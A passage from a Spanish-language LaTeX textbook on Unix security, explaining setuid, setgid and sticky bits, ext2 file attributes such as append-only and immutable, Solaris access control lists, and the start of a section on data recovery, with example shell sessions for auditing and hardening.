modificar los permisos: su robustez; hemos de pensar que este modelo de
protecci\'on est\'a vigente desde hace casi treinta a\~nos y no ha cambiado 
{\bf absolutamente nada}. Si en todo este tiempo no se ha modificado el 
mecanismo, obviamente es porque siempre ha funcionado -- y lo sigue haciendo --
bien.
\section{Los bits {\sc suid}, {\sc sgid} y {\it sticky}}
Habitualmente, los permisos de los archivos en Unix se corresponden con un
n\'umero en octal que var\'{\i}a entre 000 y 777; sin embargo, existen unos
permisos especiales que hacen variar ese n\'umero entre 0000 y 7777: se trata
de los bits de permanencia (1000), {\sc sgid} (2000) y {\sc suid} (4000).\\
\\El bit de {\sc suid} o {\it setuid} se activa sobre un fichero 
a\~nadi\'endole 4000 a la
representaci\'on octal de los permisos del archivo y otorg\'andole adem\'as
permiso de ejecuci\'on al propietario del mismo; al hacer esto, en lugar de
la {\tt x} en la primera terna de los permisos, aparecer\'a una {\tt s} o una
{\tt S} si no hemos otorgado el permiso de ejecuci\'on correspondiente (en 
este caso el bit no tiene efecto):
\begin{quote}
\begin{verbatim}
anita:~# chmod 4777 /tmp/file1
anita:~# chmod 4444 /tmp/file2
anita:~# ls -l /tmp/file1 
-rwsrwxrwx   1 root     other            0 Feb  9 17:51 /tmp/file1*
anita:~# ls -l /tmp/file2
-r-Sr--r--   1 root     other            0 Feb  9 17:51 /tmp/file2*
anita:~# 
\end{verbatim}
\end{quote}
El bit {\sc suid} activado sobre un fichero  indica que todo aqu\'el que
ejecute el archivo va a tener durante la ejecuci\'on los mismos privilegios que
qui\'en lo cre\'o; dicho de otra forma, si el administrador crea un fichero
y lo {\it setuida}, todo aquel usuario que lo ejecute va a disponer, hasta que
el programa finalice, de un nivel de privilegio total en el sistema. Podemos 
verlo con el siguiente ejemplo:
\begin{quote}
\begin{verbatim}
luisa:/home/toni# cat testsuid.c
#include <stdio.h>
#include <unistd.h>

main(){
  printf("UID: %d, EUID: %d\n",getuid(),geteuid());
}
luisa:/home/toni# cc -o testsuid testsuid.c
luisa:/home/toni# chmod u+s testsuid
luisa:/home/toni# ls -l testsuid
-rwsr-xr-x   1 root     root         4305 Feb 10 02:34 testsuid
luisa:/home/toni# su toni
luisa:~$ id
uid=1000(toni) gid=100(users) groups=100(users)
luisa:~$ ./testsuid
UID: 1000, EUID: 0
luisa:~$ 
\end{verbatim}
\end{quote}
Podemos comprobar que el usuario {\it toni}, sin ning\'un privilegio
especial en el sistema, cuando ejecuta nuestro programa {\it setuidado} de 
prueba est\'a trabajando con un {\sc euid} ({\it Effective UID}) 0, lo que le
otorga todo el poder del administrador (fij\'emonos que \'este \'ultimo es
el propietario del ejecutable); si en lugar de este c\'odigo el ejecutable
fuera una copia de un {\it shell}, el usuario {\it toni} tendr\'{\i}a todos los
privilegios del {\it root} mientras no finalice la ejecuci\'on, es decir, hasta
que no se teclee {\tt exit} en la l\'{\i}nea de \'ordenes.\\
\\Todo lo que acabamos de comentar con respecto al bit {\it setuid} es aplicable
al bit {\it setgid} pero a nivel de grupo del fichero en lugar de propietario: 
en lugar de trabajar con el {\sc euid} del propietario, todo usuario que 
ejecute un programa {\it setgidado} tendr\'a los privilegios del grupo al que
pertenece el archivo. Para activar el bit de {\it setgid} sumaremos 2000 a la
representaci\'on octal del permiso del fichero y adem\'as habremos de darle
permiso de ejecuci\'on a la terna de grupo; si lo hacemos, la {\tt s} o {\tt S} 
aparecer\'a en lugar de la {\tt x} en esta terna. Si el fichero es un directorio
y no un archivo plano, el bit {\it setgid} afecta a los ficheros y 
subdirectorios que se creen en \'el: estos tendr\'an como grupo propietario al
mismo que el directorio {\it setgidado}, siempre que el proceso que los cree
pertenezca a dicho grupo.\\
\\Pero, >c\'omo afecta todo esto a la seguridad del sistema? Muy sencillo: 
los bits de {\it setuid} y {\it setgid} dan a Unix una gran flexibilidad, pero
constituyen al mismo tiempo la mayor fuente de ataques internos al sistema
(entendiendo por ataques internos aquellos realizados por un usuario --
autorizado o no -- desde la propia m\'aquina, generalmente con el objetivo de
aumentar su nivel de privilegio en la misma).
Cualquier sistema Unix tiene un cierto n\'umero de ejecutables {\it 
setuidados} y/o {\it setgidados}. Cada uno de ellos, como acabamos de comentar,
se ejecuta con los privilegios de quien lo cre\'o (generalmente el {\it root}
u otro usuario con ciertos privilegios) lo que directamente implica que 
cualquier usuario tiene la capacidad de lanzar tareas que escapen total o 
parcialmente al control del sistema operativo: se ejecutan en modo privilegiado
si es el administrador quien cre\'o los ejecutables. Evidentemente, estas 
tareas han de estar controladas de una forma exhaustiva, ya que si una de ellas
se comporta de forma anormal (un simple {\it core dump}) puede causar
da\~nos irreparables al sistema\footnote{Es especialmente preocupante la 
posibilidad de ejecutar c\'odigo arbitrario (\cite{kn:ale97}), comentada en
la secci\'on \ref{bufover}.}; tanto es as\'{\i} que hay innumerables 
documentos que definen, o lo intentan, pautas de programaci\'on considerada
`segura' (en la secci\'on \ref{progseg} se citan algunos de ellos y tambi\'en
se explican algunas de estas t\'ecnicas). Si por cualquier motivo un programa
{\it setuidado} falla se asume inmediatamente que presenta un problema de
seguridad para la m\'aquina, y se recomienda resetear el bit de {\it setuid} 
cuanto antes.\\
\\Est\'a claro que asegurar completamente el comportamiento correcto de un
programa es muy dif\'{\i}cil, por no decir imposible; cada cierto tiempo suelen
aparecer fallos ({\it bugs}) en ficheros {\it setuidados} de los diferentes
clones de Unix que ponen en peligro la integridad del sistema. Entonces, >por
qu\'e no se adopta una soluci\'on radical, como eliminar este tipo de archivos?
Hay una sencilla raz\'on: el riesgo que presentan no se corre in\'utilmente,
para tentar al azar, sino que los archivos que se ejecutan con privilegios son
estrictamente necesarios en Unix, al menos algunos de ellos. Veamos un ejemplo:
un fichero setuidado cl\'asico en cualquier clon es {\tt /bin/passwd},
la orden para que los usuarios puedan cambiar su contrase\~na de entrada al
sistema. No hace falta analizar con mucho detalle el funcionamiento de este
programa para darse cuenta que una de sus funciones consiste en modificar el
fichero de claves ({\tt /etc/passwd} o {\tt /etc/shadow}). Est\'a claro que
un usuario {\it per se} no tiene el nivel de privilegio necesario para hacer
esto (incluso es posible que ni siquiera pueda leer el fichero de claves), por lo
que frente a este problema tan simple existen varias soluciones: podemos 
asignar permiso de escritura para todo el mundo al fichero de contrase\~nas, 
podemos denegar a los usuarios el cambio de clave o podemos obligarles a pasar
por la sala de operaciones cada vez que quieran cambiar su contrase\~na. Parece
obvio que ninguna de ellas es apropiada para la seguridad del sistema (quiz\'as
la \'ultima lo sea, pero es impracticable en m\'aquinas con un n\'umero de 
usuarios considerable). Por tanto, debemos asumir que el bit de {\it setuid} en
{\tt /bin/passwd} es imprescindible para un correcto funcionamiento del
sistema. Sin embargo, esto no siempre sucede as\'{\i}: en un sistema Unix 
instalado {\it out of the box} el n\'umero de ficheros setuidados suele ser
mayor de cincuenta; sin perjudicar al correcto funcionamiento de la m\'aquina,
este n\'umero se puede reducir a menos de cinco, lo que viene a indicar que
una de las tareas de un administrador sobre un sistema reci\'en instalado es
minimizar el n\'umero de ficheros {\it setuidados} o {\it setgidados}. No
obstante, tampoco es conveniente eliminarlos, sino simplemente resetear su bit 
de {\it setuid} mediante {\tt chmod}:
\begin{quote}
\begin{verbatim}
luisa:~# ls -l /bin/ping 
-r-sr-xr-x   1 root     bin         14064 May 10  1999 /bin/ping*
luisa:~# chmod -s /bin/ping
luisa:~# ls -l /bin/ping 
-r-xr-xr-x   1 root     bin         14064 May 10  1999 /bin/ping*
luisa:~#
\end{verbatim}
\end{quote}
Tambi\'en hemos de estar atentos a nuevos ficheros de estas caracter\'{\i}sticas
que se localicen en la m\'aquina; demasiadas aplicaciones de Unix se instalan
por defecto con ejecutables {\it setuidados} cuando realmente este bit no es
necesario, por lo que a la hora de instalar nuevo {\it software} o actualizar
el existente hemos de acordarnos de resetear el bit de los ficheros que no lo 
necesiten. Especialmente grave es la aparici\'on de archivos {\it setuidados}
de los que el administrador no ten\'{\i}a constancia (ni son aplicaciones del
sistema ni un aplicaciones a\~nadidas), ya que esto casi en el 100\% de los
casos indica que nuestra m\'aquina ha sido comprometida por un atacante. Para 
localizar los ficheros con alguno de estos bits activos, podemos ejecutar la 
siguiente orden:
\begin{quote}
\begin{verbatim}
luisa:~# find / \( -perm -4000 -o -perm -2000 \) -type f -print
\end{verbatim}
\end{quote}
Por otra parte, el {\it sticky bit} o bit de permanencia se activa sum\'andole 
1000 a la 
representaci\'on octal de los permisos de un determinado archivo y otorg\'andole
adem\'as permiso de ejecuci\'on; si hacemos esto, veremos que en lugar de una 
{\tt x} en la terna correspondiente al resto de usuarios aparece una {\tt t} 
(si no le hemos dado permiso de ejecuci\'on al archivo, aparecer\'a una {\tt 
T}):
\begin{quote}
\begin{verbatim}
anita:~# chmod 1777 /tmp/file1
anita:~# chmod 1774 /tmp/file2
anita:~# ls -l /tmp/file1 
-rwxrwxrwt   1 root     other            0 Feb  9 17:51 /tmp/file1*
anita:~# ls -l /tmp/file2
-rwxrwxr-T   1 root     other            0 Feb  9 17:51 /tmp/file2*
anita:~# 
\end{verbatim}
\end{quote}
Si el bit de permanencia de un fichero est\'a activado (recordemos que si 
aparece una {\tt T} no lo est\'a) le estamos indicando al sistema operativo que 
se trata de un archivo muy utilizado, por lo que es conveniente que permanezca
en memoria principal el mayor tiempo posible; esta opci\'on se utilizaba en 
sistemas antiguos que dispon\'{\i}an de muy poca RAM, pero hoy en d\'{\i}a
pr\'acticamente no se utiliza. Lo que si que sigue vigente es el efecto del 
{\it sticky bit} activado sobre un directorio: en este caso se indica al
sistema operativo que, aunque los permisos `normales' digan que cualquier 
usuario pueda crear y eliminar ficheros (por ejemplo, un 777 octal), s\'olo el
propietario de cierto archivo y el administrador pueden borrar un archivo 
guardado en un directorio con estas caracter\'{\i}sticas. Este bit, que s\'olo
tiene efecto cuando es activado por el administrador (aunque cualquier
usuario puede hacer que aparezca una {\tt t} o una {\tt T} en sus ficheros y
directorios), se utiliza principalmente en directorios del sistema de ficheros
en los que interesa que todos puedan escribir pero que no todos puedan borrar
los datos escritos, como {\tt /tmp/} o {\tt /var/tmp/}: si el equivalente octal
de los permisos de estos directorios fuera simplemente 777 en lugar de 1777,
cualquier usuario podr\'{\i}a borrar los ficheros del resto. Si pensamos que 
para evitar problemas podemos simplemente denegar la escritura en directorios
como los anteriores tambi\'en estamos equivocados: muchos programas -- como 
compiladores, editores o gestores de correo -- asumen que van a poder crear
ficheros en {\tt /tmp/} o {\tt /var/tmp/}, de forma que si no se permite a los
usuarios hacerlo no van a funcionar correctamente; por tanto, es muy 
recomendable para el buen funcionamiento del sistema que al menos el 
directorio {\tt /tmp/} tenga el bit de permanencia activado.\\
\\Ya para finalizar, volvemos a lo que hemos comentado al principio de la
secci\'on: el equivalente octal de los permisos en Unix puede variar entre 0000
y 7777. Hemos visto que pod\'{\i}amos sumar 4000, 2000 o 1000 a los permisos
`normales' para activar respectivamente los bits {\it setuid}, {\it setgid} o
{\it sticky}. Por supuesto, podemos activar varios de ellos a la vez simplemente
sumando sus valores: en la situaci\'on poco probable de que necesit\'aramos 
todos los bits activos, sumar\'{\i}amos 7000 a la terna octal 777:
\begin{quote}
\begin{verbatim}
luisa:~# chmod 0 /tmp/fichero
luisa:~# ls -l /tmp/fichero 
----------   1 root     root            0 Feb  9 05:05 /tmp/fichero
luisa:~# chmod 7777 /tmp/fichero
luisa:~# ls -l /tmp/fichero 
-rwsrwsrwt   1 root     root            0 Feb  9 05:05 /tmp/fichero*
luisa:~#
\end{verbatim}
\end{quote}
Si en lugar de especificar el valor octal de los permisos queremos utilizar
la forma simb\'olica de {\tt chmod}, utilizaremos {\tt +t} para activar el
bit de permanencia, {\tt g+s} para activar el de {\it setgid} y {\tt u+s} para 
hacer lo mismo con el de {\it setuid}; si queremos resetearlos, utilizamos un
signo {\tt `-'} en lugar de un {\tt `+'} en la l\'{\i}nea de \'ordenes.
\section{Atributos de un archivo}
En el sistema de ficheros {\it ext2} ({\it Second Extended File System}) de 
Linux existen ciertos atributos para los ficheros que pueden ayudar a 
incrementar la seguridad de un sistema. Estos atributos son los mostrados en
la tabla \ref{attr}.\\
\begin{table}
\begin{center}
\begin{tabular}{|c||c|}
\hline
Atributo & Significado\\
\hline\hline
A & Don\'{}t update {\bf A}time\\
\hline
S & {\bf S}ynchronous updates\\
\hline
a & {\bf A}ppend only\\
\hline
c & {\bf C}ompressed file\\
\hline
i & {\bf I}mmutable file\\
\hline
d & No {\bf D}ump\\
\hline
s & {\bf S}ecure deletion\\
\hline
u & {\bf U}ndeletable file\\
\hline
\end{tabular}
\end{center}
\caption{Atributos de los archivos en {\it ext2fs}.}
\label{attr}
\end{table}
\\De todos ellos, de cara a la seguridad algunos no nos interesan demasiado,
pero otros s\'{\i} que se deben tener en cuenta. Uno de los atributos 
interesantes -- quiz\'as el que m\'as -- es {\tt `a'}; tan importante es que 
s\'olo el administrador tiene el privilegio suficiente para activarlo o 
desactivarlo.  El atributo {\tt `a'} sobre un fichero indica que este s\'olo se 
puede abrir en modo escritura para a\~nadir datos, pero nunca para eliminarlos.
>Qu\'e tiene que ver esto con la seguridad? Muy sencillo: cuando un intruso ha
conseguido el privilegio suficiente en un sistema atacado, lo primero que suele
hacer es borrar sus huellas; para esto existen muchos programas (denominados
{\it zappers}, {\it rootkits}\ldots) que, junto a otras funciones, eliminan
estructuras de ciertos ficheros de {\it log} como {\tt lastlog}, {\tt wtmp} o
{\tt utmp}. As\'{\i} consiguen que cuando alguien ejecute {\tt last}, {\tt who},
{\tt users}, {\tt w} o similares, no vea ni rastro de la conexi\'on que el
atacante ha realizado a la m\'aquina; evidentemente, si estos archivos de {\it
log} poseen el atributo {\tt `a'} activado, el pirata y sus programas lo tienen 
m\'as dif\'{\i}cil para borrar datos de ellos. Ahora viene la siguiente
cuesti\'on: si el pirata ha conseguido el suficiente nivel de privilegio como
para poder escribir -- borrar -- en los ficheros (en la mayor\'{\i}a de Unices
para realizar esta tarea se necesita ser {\it root}), simplemente ha de 
resetear el atributo {\tt `a'} del archivo, eliminar los datos comprometedores
y volver a activarlo. Obviamente, esto es as\'{\i} de simple, pero siempre 
hemos de recordar que en las redes habituales no suelen ser atacadas por piratas
con un m\'{\i}nimo nivel de conocimientos, sino por los intrusos m\'as novatos
de la red; tan novatos que generalmente se limitan a ejecutar programas desde 
sus flamantes Windows sin tener ni la m\'as remota idea de lo que 
est\'an haciendo en Unix, de forma que una protecci\'on tan elemental como un 
fichero con el {\it flag} {\tt `a'} activado se convierte en algo imposible de 
modificar para ellos, con lo que su acceso queda convenientemente registrado en 
el sistema.\\
\\Otro atributo del sistema de archivos {\it ext2} es {\tt `i'} (fichero 
inmutable); un archivo con este {\it flag} activado no se puede modificar de
ninguna forma, ni a\~nadiendo datos ni borr\'andolos, ni eliminar el archivo,
ni tan siquiera enlazarlo mediante {\tt ln}. Igual que suced\'{\i}a antes,
s\'olo el administrador puede activar o desactivar el atributo {\tt `i'} de
un fichero. Podemos aprovechar esta caracter\'{\i}stica en los archivos que 
no se modifican frecuentemente, por ejemplo muchos de los contenidos en 
{\tt /etc/} (ficheros de configuraci\'on, {\it scripts} de arranque\ldots
incluso el propio fichero de contrase\~nas si el a\~nadir o eliminar usuarios
tampoco es frecuente en nuestro sistema); de esta forma conseguimos que 
ning\'un usuario pueda modificarlos incluso aunque sus permisos lo permitan.
Cuando activemos el atributo {\tt `i'} en un archivo hemos de tener siempre
en cuenta que el archivo no va a poder ser modificado por nadie, incluido el
administrador, y tampoco por los programas que se ejecutan en la m\'aquina;
por tanto, si activ\'aramos este atributo en un fichero de {\it log}, {\bf no
se grabar\'{\i}a ninguna informaci\'on en \'el}, lo que evidentemente no es
conveniente. Tambi\'en hemos de recordar que los archivos tampoco van a poder
sen enlazados, lo que puede ser problem\'atico en algunas variantes de Linux
que utilizan enlaces duros para la configuraci\'on de los ficheros de
arranque del sistema.\\
\\Atributos que tambi\'en pueden ayudar a implementar una correcta pol\'{\i}tica
de seguridad en la m\'aquina, aunque menos importantes que los anteriores, son
{\tt `s'} y {\tt `S'}. Si borramos un archivo con el atributo {\tt `s'} activo,
el sistema va a rellenar sus bloques con ceros en lugar de efectuar un simple
{\tt unlink()}, para as\'{\i} dificultar la tarea de un atacante que intente 
recuperarlo; realmente, para un pirata experto esto no supone ning\'un problema,
simplemente un retraso en sus prop\'ositos: en el punto \ref{secure-del} se
trata m\'as ampliamente la amenaza de la recuperaci\'on de archivos, y tambi\'en
ah\'{\i} se comenta que un simple relleno de bloques mediante {\tt bzero()} 
no hace que la informaci\'on sea irrecuperable.\\
\\Por su parte, el atributo {\tt `S'} sobre un fichero hace que los cambios 
sobre el archivo se escriban inmediatamente en el disco en lugar de esperar
el {\tt sync} del sistema operativo. Aunque no es lo habitual, bajo ciertas
circunstancias un fichero de {\it log} puede perder informaci\'on que a\'un
no se haya volcado a disco: imaginemos por ejemplo que alguien conecta al
sistema y cuando \'este registra la entrada, la m\'aquina se apaga
s\'ubitamente; toda la informaci\'on que a\'un no se haya grabado en disco se
perder\'a. Aunque como decimos, esto no suele ser habitual -- adem\'as, ya hemos
hablado de las ventajas de instalar un S.A.I. --, si nuestro sistema se apaga
frecuentemente s\'{\i} que nos puede interesar activar el bit {\tt `S'} de 
ciertos ficheros importantes.\\
\\Ya hemos tratado los atributos del sistema de ficheros {\it ext2} que pueden
incrementar la seguridad de Linux; vamos a ver ahora, sin entrar en muchos
detalles (recordemos que tenemos a nuestra disposici\'on las p\'aginas del
manual) c\'omo activar o desactivar estos atributos sobre ficheros, y tambi\'en
c\'omo ver su estado. Para lo primero utilizamos la orden {\tt chattr}, que
recibe como par\'ametros el nombre del atributo junto a un signo {\tt `+'} o 
{\tt `-'}, en funci\'on de si deseamos activar o desactivar el atributo, y
tambi\'en el nombre de fichero correspondiente. Si lo que deseamos es visualizar
el estado de los diferentes atributos, utilizaremos {\tt lsattr}, cuya salida
indicar\'a con la letra correspondiente cada atributo del fichero o un signo
{\tt -} en el caso de que el atributo no est\'e activado:
\begin{quote}
\begin{verbatim}
luisa:~# lsattr /tmp/fichero 
-------- /tmp/fichero
luisa:~# chattr +a /tmp/fichero 
luisa:~# chattr +Ss /tmp/fichero 
luisa:~# lsattr /tmp/fichero 
s--S-a-- /tmp/fichero
luisa:~# chattr -sa /tmp/fichero 
luisa:~# lsattr /tmp/fichero 
---S---- /tmp/fichero
luisa:~# 
\end{verbatim}
\end{quote}
\section{Listas de control de acceso: ACLs}
Las listas de control de acceso (ACLs, {\it Access Control Lists}) proveen
de un nivel adicional de seguridad a los ficheros extendiendo el cl\'asico
esquema de permisos en Unix: mientras que con estos \'ultimos s\'olo podemos 
especificar permisos para los tres grupos de usuarios habituales (propietario, 
grupo y resto), las ACLs van a permitir asignar permisos a usuarios o grupos
concretos; por ejemplo, se
pueden otorgar ciertos permisos a dos usuarios sobre unos ficheros sin necesidad
de incluirlos en el mismo grupo. Este mecanismo est\'a
disponible en la mayor\'{\i}a de Unices (Solaris, AIX, HP-UX\ldots), mientras
que en otros que no lo proporcionan por defecto, como Linux, puede instalarse 
como un {\it software} adicional. A pesar de las agresivas campa\~nas de 
{\it marketing} de alguna empresa, que justamente presum\'{\i}a de ofrecer este 
modelo de protecci\'on en sus {\it sistemas operativos} frente al `arcaico' 
esquema utilizado en Unix, las listas de control de acceso existen en Unix 
desde hace m\'as de diez a\~nos (\cite{kn:apo88}).\\
\\Los ejemplos que vamos a utilizar aqu\'{\i} (\'ordenes, resultados\ldots) se
han realizado sobre Solaris; la idea es la misma en el resto de Unices, aunque 
pueden cambiar las estructuras de las listas. Para obtener una excelente 
visi\'on de las ACLs es recomendable consultar \cite{kn:fri95}, y por supuesto
la documentaci\'on de los diferentes clones de Unix para detalles concretos de 
cada manejo e implementaci\'on.\\
\\La primera pregunta que nos debemos hacer sobre las listas de control de
acceso es obvia: >c\'omo las vemos? Si habitualmente queremos saber si a un 
usuario se le permite cierto tipo de acceso sobre un fichero no tenemos m\'as 
que hacer un listado largo:
\begin{quote}
\begin{verbatim}
anita:~# ls -l /usr/local/sbin/sshd 
-rwx------   1 root     bin      2616160 Apr 28  1997 /usr/local/sbin/sshd
anita:~# 
\end{verbatim}
\end{quote}
Viendo el resultado, directamente sabemos que el fichero {\tt sshd} puede ser
ejecutado, modificado y le\'{\i}do por el administrador, pero por nadie m\'as;
sin embargo, no conocemos el estado de la lista de control de acceso asociada al
archivo. Para ver esta lista, en Solaris se ha de utilizar la orden {\tt 
getfacl}:
\begin{quote}
\begin{verbatim}
anita:/# getfacl /usr/local/sbin/sshd 

# file: /usr/local/sbin/sshd
# owner: root
# group: bin
user::rwx
group::---              #effective:---
mask:---
other:---
anita:/# 
\end{verbatim}
\end{quote}
Acabamos de visualizar una lista de control de acceso de Solaris; en primer 
lugar se nos indica el nombre del fichero, su propietario y su grupo, todos
precedidos por {\tt `\#'}. Lo que vemos a continuaci\'on es la propia lista de
control: los campos {\tt user}, {\tt group} y {\tt other} son b\'asicamente
la interpretaci\'on que {\tt getfacl} hace de los permisos del fichero (si nos
fijamos, coincide con el resultado del {\tt ls -l}). El campo {\tt mask} es
muy similar al {\tt umask} cl\'asico: define los permisos m\'aximos que un
usuario (a excepci\'on del propietario) o grupo puede tener sobre el fichero. 
Finalmente, el campo {\tt effective} nos dice, para cada usuario (excepto el
propietario) o grupo el efecto que la m\'ascara tiene sobre los permisos: es
justamente el campo que tenemos que analizar si queremos ver qui\'en puede
acceder al archivo y de qu\'e forma.\\
\\Sin embargo, hasta ahora no hemos observado nada nuevo; podemos fijarnos que
la estructura de la lista de control de acceso otorga los mismos permisos que
las ternas cl\'asicas. Esto es algo normal en todos los Unix: si no indicamos
lo contrario, al crear un fichero se le asocia una ACL que coincide con los
permisos que ese archivo tiene en el sistema (cada archivo tendr\'a una lista
asociada, igual que tiene unos permisos); de esta forma, el resultado anterior
no es m\'as que la visi\'on que {\tt getfacl} tiene de los bits {\it rwx} 
del fichero (\cite{kn:gal96b}).\\ 
\\Lo interesante de cara a la protecci\'on de ficheros es extender los permisos
cl\'asicos del archivo, modificando su lista asociada. Esto lo podemos conseguir
con la orden {\tt setfacl}:
\begin{quote}
\begin{verbatim}
anita:~# setfacl -m user:toni:r-x /usr/local/sbin/sshd 
anita:~# getfacl /usr/local/sbin/sshd 

# file: /usr/local/sbin/sshd
# owner: root
# group: bin
user::rwx
user:toni:r-x           #effective:---
group::---              #effective:---
mask:---
other:---
anita:~# 
\end{verbatim}
\end{quote}
Como vemos, acabamos de modificar la lista de control de acceso del archivo
para asignarle a {\tt toni} permiso de ejecuci\'on y lectura sobre el mismo. La
orden {\tt setfacl} se utiliza principalmente de tres formas: o bien a\~nadimos
entradas a la ACL, mediante la opci\'on {\tt -m} seguida de las entradas que 
deseemos a\~nadir separadas por comas (lo que hemos hecho en este caso, aunque
no se han utilizado comas porque s\'olo hemos a\~nadido una entrada), o bien 
utilizamos el par\'ametro {\tt -s} para reemplazar la ACL completa (hemos de 
indicar todas las entradas, separadas tambi\'en por comas), o bien borramos
entradas de la lista con la opci\'on {\tt -d} (de sintaxis similar a {\tt -m}).
Cada entrada de la ACL tiene el siguiente formato:
\begin{center}
{\large {\tt tipo:{\sc uid}$\mid${\sc gid}:permisos}}
\end{center}
El tipo indica a qui\'en aplicar los permisos (por ejemplo, {\tt user} para
el propietario del archivo, o {\tt mask} para la m\'ascara), el UID indica el
usuario al que queremos asociar la entrada (como hemos visto, se puede utilizar
tambi\'en el {\it login}, y el GID hace lo mismo con el grupo (de la misma 
forma, se puede especificar su nombre simb\'olico). Finalmente, el campo de
permisos hace referencia a los permisos a asignar, y puede ser especificado 
mediante s\'{\i}mbolos {\it rwx-} o de forma octal.\\
\\Acabamos de indicar que el usuario {\it toni} tenga permiso de lectura y
ejecuci\'on en el archivo; no obstante, si ahora este usuario intenta acceder 
al fichero en estos modos obtendr\'a un error:
\begin{quote}
\begin{verbatim}
anita:/usr/local/sbin$ id
uid=100(toni) gid=10(staff)
anita:/usr/local/sbin$ ./sshd
bash: ./sshd: Permission denied
anita:/usr/local/sbin$ 
\end{verbatim}
\end{quote}
>Qu\'e ha sucedido? Nada anormal, simplemente est\'a actuando la m\'ascara sobre
sus permisos (antes hemos dicho que debemos fijarnos en el campo {\tt 
effective}, y aqu\'{\i} podemos comprobar que no se ha modificado). Para 
solucionar esto hemos de modificar el campo {\tt mask}:
\begin{quote}
\begin{verbatim}
anita:~# setfacl -m mask:r-x /usr/local/sbin/sshd
anita:~#
\end{verbatim}
\end{quote}
Si ahora {\it toni} intenta acceder al fichero para leerlo o ejecutarlo, ya
se le va a permitir:
\begin{quote}
\begin{verbatim}
anita:/usr/local/sbin$ id
uid=100(toni) gid=10(staff)
anita:/usr/local/sbin$ ./sshd
/etc/sshd_config: No such file or directory
...
\end{verbatim}
\end{quote}
Aunque obtenga un error, este error ya no depende de
la protecci\'on de los ficheros sino de la configuraci\'on del programa: el
administrador obtendr\'{\i}a el mismo error. No obstante, s\'{\i} que hay 
diferencias entre una ejecuci\'on de {\it toni} y otra del {\it root}, pero 
tambi\'en son impuestas por el resto del sistema operativo Unix: {\it toni} no
podr\'{\i}a utilizar recursos a los que no le est\'a permitido el acceso, como
puertos bien conocidos, otros ficheros, o procesos que no le pertenezcan. Hay
que recordar que aunque un usuario ejecute un archivo perteneciente al {\it
root}, si el fichero no est\'a setuidado los privilegios del usuario {\bf no
cambian}. Sucede lo mismo que pasar\'{\i}a si el usuario tuviera permiso de
ejecuci\'on normal sobre el fichero, pero \'este realizara tareas privilegiadas:
podr\'{\i}a ejecutarlo, pero obtendr\'{\i}a error al intentar violar la
protecci\'on del sistema operativo.\\
\\En Solaris, para indicar que una lista de control de acceso otorga permisos
no reflejados en los bits {\it rwx} se situa un s\'{\i}mbolo {\tt `+'} a la
derecha de los permisos en un listado largo:
\begin{quote}
\begin{verbatim}
anita:~# ls -l /usr/local/sbin/sshd
-rwx------+  1 root     bin      2616160 Apr 28  1997 /usr/local/sbin/sshd
anita:~# 
\end{verbatim}
\end{quote}
Otra caracter\'{\i}stica que tiene Solaris es la capacidad de leer las 
entradas de una lista de control de acceso desde un fichero en lugar de
indicarlas en la l\'{\i}nea de \'ordenes, mediante la opci\'on {\tt -f} de
{\tt setfacl}; el formato de este fichero es 
justamente el resultado de {\tt getfacl}, lo que nos permite copiar ACLs entre
archivos de una forma muy c\'omoda:
\begin{quote}
\begin{verbatim}
anita:~# getfacl /usr/local/sbin/sshd >/tmp/fichero
anita:~# setfacl -f /tmp/fichero /usr/local/sbin/demonio
anita:~# getfacl /usr/local/sbin/demonio

# file: /usr/local/sbin/demonio
# owner: root
# group: other
user::rwx
user:toni:r-x           #effective:r-x
group::---              #effective:---
mask:r-x
other:---
anita:~#
\end{verbatim}
\end{quote}
Esto es equivalente a utilizar una tuber\'{\i}a entre las dos \'ordenes, lo
que producir\'{\i}a el mismo resultado:
\begin{quote}
\begin{verbatim}
anita:~# getfacl /usr/local/sbin/sshd | setfacl -f - /usr/local/sbin/demonio
\end{verbatim}
\end{quote}
Antes de finalizar este apartado dedicado a las listas de control de acceso,
quiz\'as sea conveniente comentar el principal problema de estos mecanismos. 
Est\'a claro que las ACLs son de gran ayuda para el administrador de sistemas
Unix, tanto para incrementar la seguridad como para facilitar ciertas tareas;
sin embargo, es f\'acil darse cuenta de que se pueden convertir en algo 
tambi\'en de gran ayuda, pero para un atacante que desee situar puertas
traseras en las m\'aquinas. Imaginemos simplemente que un usuario 
autorizado de nuestro sistema aprovecha el \'ultimo {\it bug} de {\tt sendmail}
(realmente nunca hay un `\'ultimo') para conseguir privilegios de administrador 
en una m\'aquina; cuando se ha convertido en {\it root} modifica la lista de
control de acceso asociada a {\tt /etc/shadow} y crea una nueva entrada que
le da un permiso total a su {\it login} sobre este archivo. Una vez hecho esto,
borra todo el rastro y 
corre a avisarnos del nuevo problema de {\tt sendmail}, problema que 
r\'apidamente solucionamos, le damos las gracias y nos olvidamos del asunto.
>Nos olvidamos del asunto? Tenemos un usuario que, aunque los bits {\it rwx}
no lo indiquen, puede modificar a su gusto un archivo crucial para nuestra 
seguridad. Contra esto, poco podemos hacer; simplemente comprobar frecuentemente
los listados de todos los ficheros importantes (ahora entendemos por qu\'e 
aparece el s\'{\i}mbolo {\tt `+'} junto a las ternas de permisos), y si 
encontramos que un 
fichero tiene una lista de control que otorga permisos no reflejados en los
bits {\it rwx}, analizar dicha lista mediante {\tt getfacl} y verificar que
todo es correcto. Es muy recomendable programar un par de {\it shellscripts}
simples, que automaticen estos procesos y nos informen en caso de que algo 
sospechoso se detecte.
\section{Recuperaci\'on de datos}
\label{secure-del}
La inform\'atica forense es un campo que d\'{\i}a a d\'{\i}a toma importancia;
de la misma forma que la medicina forense es capaz de extraer informaci\'on
valiosa de un cad\'aver, incluso mucho despu\'es de haber muerto, la 
inform\'atica forense pretende extraer informaci\'on de un `cad\'aver' 
computerizado (por ejemplo, un sistema en el que un intruso ha borrado sus 
huellas), tambi\'en incluso mucho despu\'es de haber `muerto' (esto es, haber
sido borrado). Aunque las t\'ecnicas de recuperaci\'on de datos en Unix se 
aplican habitualmente para potenciar la seguridad de un equipo (por ejemplo, 
como hemos dicho, para analizar el alcance real de un acceso no autorizado), 
\'estas mismas t\'ecnicas utilizadas por un atacante pueden llegar a comprometer
gravemente la seguridad del sistema: un intruso que haya conseguido cierto
nivel de privilegio puede recuperar, por ejemplo, el texto plano de un documento
que un usuario haya cifrado con {\sc pgp} y posteriormente borrado -- 
almacenando \'unicamente el documento cifrado --. Aunque esto no es tan trivial
como en otros sistemas menos seguros (en los que incluso se facilitan 
herramientas tipo {\tt undelete}), parece claro que este tipo de actividades
constituyen una amenaza a la seguridad (principalmente a la privacidad) de
cualquier sistema Unix.\\
